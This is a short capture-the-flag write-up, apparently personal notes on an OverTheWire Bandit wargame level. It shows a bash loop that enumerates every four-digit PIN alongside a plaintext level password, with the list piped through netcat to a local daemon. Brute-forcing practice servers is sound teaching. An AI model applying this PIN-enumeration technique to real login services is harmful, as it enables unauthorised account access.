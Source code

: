 **Password**: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
**Tools**: [[netcat (nc)]], [[Brute force]], [[Bash scripting]]

**Prev**: [[Level 23]]
**Next**: [[Level 25]]
## Solution
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

so we use [[netcat (nc)]] to send a combination like `current_password 4_digit_picode`
first, we need create a dictionary with all that combinations.
```bash
#!/bin/bash

for i in {0000..9999}; do
	echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"
done
```
if we execute this redirection the output to new file, almost ready
```bash
chmod +x script.sh && ./script.sh > dictionary.txt
```
now just need send all file to daemon running in port 30002
```bash
cat dictionary.txt | nc localhost 30002
```
and eventually we found the password.